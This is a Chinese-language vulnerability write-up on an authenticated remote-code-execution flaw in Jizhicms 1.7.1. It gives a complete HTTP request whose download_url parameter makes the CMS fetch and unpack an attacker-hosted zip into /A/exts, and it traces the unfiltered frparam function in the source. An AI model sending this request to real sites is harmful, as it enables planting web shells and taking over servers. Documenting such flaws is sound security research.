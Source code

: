 # Jizhicms 1.7.1 后台getshell

## 一、漏洞简介

## 二、漏洞影响

Jizhicms 1.7.1

## 三、复现过程

```bash
POST /admin.php/Plugins/update.html HTTP/1.1
Host: www.baidu.com:8091
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 80
Origin: http://www.baidu.com:8091
Connection: close
Referer: http://www.baidu.com:8091/admin.php/Plugins/
Cookie: PHPSESSID=tq79jo8omp5s72lq101noj48lq

action=start-download&filepath=msgphone&download_url=http://www.baidu.com/test/a.zip

```

攻击者可以控制download_url传入参数的值，从而传入被压缩的可执行脚本，然后该压缩包会被解压并传入到特定位置，实现getshell
所以只需要攻击者在自己控制的网站上压缩可执行脚本然后将url赋值给download_url即可实现任意文件上传
定位下函数位置，该函数位于/A/c/PluginsController.php下的update函数

![1.png](images/2020_05_26/8c104142af134ca7a19759d028d4889e.png)

传进来的值通过frparam函数处理之后变赋值给了remote_url
跟进到frparam函数函数中，该函数位于/FrPHP/lib/Controller.php中

```php
public function frparam($str=null, $int=0,$default = FALSE, $method = null){

        $data = $this->_data;
        if($str===null) return $data;
        if(!array_key_exists($str,$data)){
            return ($default===FALSE)?false:$default;
        }
        if($method===null){
            $value = $data[$str];
        }else{
            $method = strtolower($method);
            switch($method){
                case 'get':
                $value = $_GET[$str];
                break;
                case 'post':
                $value = $_POST[$str];
                break;
                case 'cookie':
                $value = $_COOKIE[$str];
                break;
            }
        }
        return format_param($value,$int);
    }

```

该函数并没有对传入的值进行过滤，只是简单的从data数组里取数据
然后继续回到update函数，在获取到了remote_url的值后便进行了下载以及解压缩的操作

![2.png](images/2020_05_26/be40331758da449ba80655b8668e3ae7.png)

![3.png](images/2020_05_26/918e2e999d3e46e29feb11e32246307a.png)

最后解压到的文件夹为/A/exts

![4.png](images/2020_05_26/93469195610a4d9eb723ef3a8575aeea.png)

## 参考链接

> https://xz.aliyun.com/t/7775#toc-3

